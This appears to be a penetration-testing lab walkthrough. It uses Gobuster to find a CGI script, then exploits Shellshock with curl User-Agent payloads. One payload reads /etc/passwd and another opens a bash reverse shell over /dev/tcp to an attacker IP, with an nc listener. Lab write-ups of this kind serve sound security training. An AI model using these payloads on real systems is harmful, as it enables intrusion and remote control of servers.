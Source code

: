 # Enumeration - Gobuster
1. We can hunt for CGI scripts using a tool such as Gobuster. Here we find one, `access.cgi`
```
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```
2. Next, we can cURL the script and notice that nothing is output to us, so perhaps it is a defunct script but still worth exploring further.
# Confirming the Vulnerability
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```
## Exploitation to Reverse Shell Access
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```
```
sudo nc -lvnp 7777
```
